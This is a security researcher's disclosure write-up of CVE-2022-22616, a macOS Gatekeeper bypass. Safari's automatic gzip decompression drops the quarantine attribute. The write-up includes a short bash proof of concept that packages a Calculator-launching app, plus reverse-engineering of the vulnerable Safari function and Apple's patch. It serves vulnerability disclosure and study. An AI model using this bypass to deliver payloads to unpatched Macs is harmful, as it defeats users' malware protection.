








In this writeup, I will introduce a very simple method to bypass [__GateKeeper__](https://support.apple.com/en-us/HT202491) , and uncover the root cause through reversing and debugging. Apple had already addressed it as [CVE-2022-22616](https://support.apple.com/en-us/HT213183) in macOS Monterey 12.3, and credited the bug to two Jamf researchers (@malwarezoo, @jbradley89) and me. So, make sure you have updated your Mac devices to the latest version.

# POC

```shell
#!/bin/bash
mkdir -p poc.app/Contents/MacOS
echo "#!/bin/bash" > poc.app/Contents/MacOS/poc
echo "open -a Calculator" >> poc.app/Contents/MacOS/poc
chmod +x poc.app/Contents/MacOS/poc
zip -r poc.app.zip poc.app
gzip -c poc.app.zip > poc.app.zip.gz
```

After the file __poc.app.zip.gz__ is downloaded by using `Safari.app`, macOS will decompress it automatically.

**However, it will lose the `com.apple.quarantine`  extended attribute when decompressing the gzip file.**

Then open the `poc.app`, it will pop a Calculator directly without any prompt.

[___Click to watch the demo video___](https://youtu.be/S5moPnXnvaE)

# Root Cause

I found the bug by accident when I downloaded something normally by using Safari. I was surprised by the loss of the extended attribute. Then I wondered who is responsible for the automatic decompression, and why it loses the extended attribute.

Through file monitoring, I found the process `/Applications/Safari.app/Contents/XPCServices/com.apple.Safari.SandboxBroker.xpc/Contents/MacOS/com.apple.Safari.SandboxBroker` is actually the one I was looking for. Here is the call stack for the extraction:



Then I found the vulnerable function `__42__WBSDownloadFileGZipUnarchiver_unarchive__block_invoke` from the private framework `SafariShared` :



At line `66`, it writes the decompressed data to `dstPath` directly, and forgets to set the extended attribute `com.apple.quarantine`.

# Patch

Apple addressed the issue in macOS 12.3, Let’s check the patch:



As expected, now it copies the quarantine properties too at line `89`.

# Another Vulnerable Function ?

There are two kinds of archive file will be automatically decompressed by the process __SandboxBroker__: 



The class `WBSDownloadFileUnarchiver` is the base class of  `WBSDownloadFileGZipUnarchiver` and `WBSDownloadFileBOMUnarchiver`, it extracts the target file by the __virtual method__ `unarchive`.

__WBSDownloadFileGZipUnarchiver__ is responsible for __gzip__ file and __WBSDownloadFileBOMUnarchiver__ is responsible for __BOM__ file. So does __WBSDownloadFileBOMUnarchiver__ have the same issue ? 

Apple assigned the same CVE ID for the two functions:





So it seems that it was vulnerable too. 

But I also debugged the function on the old __macOS 12.1__:



We can see the parameter  `options` for API __BOMCopierCopyWithOptions__, the attribute __copyQuarantine__ is set to true. It means it will set the quarantine properties if the original __zip__ file has the quarantine properties.

Apple did make a patch for `WBSDownloadFileBOMUnarchiver`, then I made a diff, and found nothing new:



It just replaced the `BOM*` API call with the function pointer call, which is resolved by `dlsym` dynamically. I couldn’t make sense the purpose now. Maybe Jamf researchers will share a different POC later.

# Summary

The way to bypass __GateKeeper__ is simple enough, and the issue has existed for a long time, I think. I am not sure whether it was actively exploited. If you find the real attacking sample in the wild, please let me know. (You can contact me via Twitter Message [@patch1t](https://www.twitter.com/patch1t))

